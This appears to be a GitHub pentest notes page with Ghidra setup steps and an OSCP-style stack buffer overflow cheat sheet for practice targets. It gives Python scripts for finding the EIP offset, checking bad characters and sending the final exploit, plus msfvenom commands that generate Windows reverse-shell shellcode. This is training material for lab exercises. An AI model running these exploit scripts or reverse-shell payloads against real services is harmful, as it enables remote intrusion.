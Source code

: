 # Binary Exploitation




## Ghidra

Install:

* [https://ghidra-sre.org/](https://ghidra-sre.org/)

```
$ mv /opt/tor-browser/Browser/Downloads/ghidra*.zip ~/tools
$ cd ~/tools && unzip ghidra*.zip && rm ghidra*.zip && mv ghidra* ghidra && cd -
$ sudo apt install openjdk-11-jdk
```




## OSCP BOF Cheatsheet

All you need to know about OSCP BOF challenge. A perfect example for practice - [here](https://www.vulnhub.com/entry/brainpan-1,51/) on VulnHub, report sample - [here](https://github.com/chvancooten/OSCP-MarkdownReportingTemplates/blob/master/Examples/Example%20Report.pdf).



### 1. Determine EIP Offset

Generate unique pattern and feed it to the application:

```
$ msf-pattern_create -l 5000
$ python3 bof_send_pattern.py
```

```python
#!/usr/bin/env python3
# bof_send_pattern.py

import socket

buf = b'<UNIQUE_PATTERN>'
#buf += b'\r\n'

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('10.10.13.37', 1337))
#print(s.recv(1024))
s.send(buf)
#print(s.recv(1024))
s.close()
```

Calculate the offset from buffer to EIP overwrite point:

```
$ msf-pattern_offset -l 5000 -q <EIP_VALUE>
[*] Exact match at offset <EIP_OFFSET>
```



### 2. Confirm BOF

Confirm that you actually can control EIP value - if true it will be overwritten with `D34DC0D3`:

```
$ python3 bof_confirm.py
```

```python
#!/usr/bin/env python3
# bof_confirm.py

import socket
import struct

def little_endian(num):
	return struct.pack('<I', num)

junk = b'A' * <EIP_OFFSET>
eip = little_endian(0xd34dc0d3)
offset = b'C' * 16

buf = junk + eip + offset
#buf += b'\r\n'

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('10.10.13.37', 1337))
#print(s.recv(1024))
s.send(buf)
#print(s.recv(1024))
s.close()
```



### 3. Enumerate Bad Characters

Send all the byte values to the application. Then in [Immunity Debugger](https://www.immunityinc.com/products/debugger/) right click on ESP → "Follow in Dump", and check what characters are missing or misinterpreted - they are the **bad characters** that should be excluded when generating the shellcode:

```
$ python3 bof_bad_chars.py
```

```python
#!/usr/bin/env python3
# bof_bad_chars.py

import socket
import struct

def little_endian(num):
	return struct.pack('<I', num)

junk = b'A' * <EIP_OFFSET>
eip = little_endian(0xd34dc0d3)
offset = b'C' * 4

badchars = b'\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff'
#badchars = '\x00'

buf = junk + eip + offset + badchars
#buf += b'\r\n'

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('10.10.13.37', 1337))
#print(s.recv(1024))
s.send(buf)
#print(s.recv(1024))
s.close()
```



### 4. Build the Exploit


#### I. Find a Return Address

List all loaded libraries in process memory space with [mona](https://github.com/corelan/mona):

```
!mona modules
```

Choose a module with no memory protections enabled.

Look for `jmp esp` instruction in that module:

```
$ msf-nasm_shell
nasm > jmp esp
00000000  FFE4              jmp esp
Or
nasm > call esp
00000000  FFD4              call esp

!mona find -s "\xff\xe4" -m "application.exe"
```

Found pointer is the needed value for EIP to force the execution flow into malicious shellcode.


#### II. Generate a Shellcode

Build a shellcode providing bad characters set from (3):

```
$ msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f python -b "\x00"
$ msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f python -e x86/shikata_ga_nai -b "\x00"
$ msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> EXITFUNC=thread -f python -e x86/shikata_ga_nai -b "\x00"
```



### 5. Exploit!

Start nc listener, feed the shellcode to the application and catch your shell:

```
$ python3 bof_exploit.py
```

```python
#!/usr/bin/env python3
# bof_exploit.py

import socket
import struct

def little_endian(num):
	return struct.pack('<I', num)

junk = b'A' * <EIP_OFFSET>
eip = little_endian(0xd34dc0d3)
offset = b'C' * 4
nops = b'\x90' * 10

buf = junk + eip + offset + nops
buf += b"<SHELLCODE>"
#buf += b'\r\n'

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('10.10.13.37', 1337))
#print(s.recv(1024))
s.send(buf)
#print(s.recv(1024))
s.close()
```

